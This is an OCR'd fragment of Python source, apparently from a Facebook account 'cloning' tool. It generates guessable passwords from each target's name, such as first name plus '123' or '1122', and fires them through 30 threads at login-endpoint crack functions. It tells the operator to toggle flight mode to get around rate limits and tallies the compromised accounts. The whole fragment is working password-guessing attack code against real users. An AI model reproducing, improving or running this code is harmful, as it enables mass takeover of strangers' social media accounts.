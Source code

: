          os.system('clear') 
         banner() 
         print('') 
         alvino_xy(f'{x}----------------------------------------------------------------') 
         print("\x1b[1;97mTURN ON/OFF FLIGHT MODE IF NO RESULT SEEN\033[1;37m") 
         print('\x1b[1;97mTOTAL IDz : '+str(len(id))) 
         print("\x1b[1;97mPROCESS HAS BEEN STARTED") 
         alvino_xy(f'{x}----------------------------------------------------------------') 
         print('') 
         with tred(max_workers=30) as pool: 
                 for yuzong in id2: 
                         idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower() 
                         frs = nmf.split(' ')[0] 
                         pwv = [] 
                         if len(nmf)<6: 
                                 if len(frs)<3: 
                                         pass 
                                 else: 
                                         pwv.append(frs+'123') 
                                         pwv.append(frs+'1234') 
                                         pwv.append(frs+'12345') 
                                         pwv.append(frs+'123456') 
                                         pwv.append(frs+'1122') 
                                         pwv.append(frs+'1111') 
                         else: 
                                 if len(frs)<3: 
                                         pwv.append(nmf) 
                                 else: 
                                         pwv.append(nmf) 
                                         pwv.append(frs+'123') 
                                         pwv.append(frs+'1234') 
                                         pwv.append(frs+'12345') 
                                         pwv.append(frs+'123456') 
                                         pwv.append(frs+'1122') 
                                         pwv.append(frs+'1111') 
                         if 'ya' in pwpluss: 
                                 for xpwd in pwnya: 
                                         pwv.append(xpwd) 
                         else:pass 
                         if 'mobile' in method: 
                                 pool.submit(crack,idf,pwv) 
                         elif 'free' in method: 
                                 pool.submit(crackfree,idf,pwv) 
                         elif 'touch' in method: 
                                 pool.submit(cracktouch,idf,pwv) 
                         elif 'mbasic' in method: 
                                 pool.submit(crackmbasic,idf,pwv) 
                         else: 
                                 pool.submit(crackmbasic,idf,pwv) 
         print('') 
         cetak('\t[purple]#[green] CLONING COMPLETE[purple] <<[yellow] ') 
         print(f'[{h}•{u}]{h} OK : {h}%s '%(ok)) 
         print(f'{k}[{k}•{h}]{k} CP : {k}%s{u} '%(cp)) 
         print('') 
         woi = input(' : ') 
         if woi in ['y','Y']: 
                 back() 
         else: 
                 print(f'\t{x}{k} PRESS ENTER TO BACK {u} ') 
                 time.sleep(2) 
                 exit() 
                  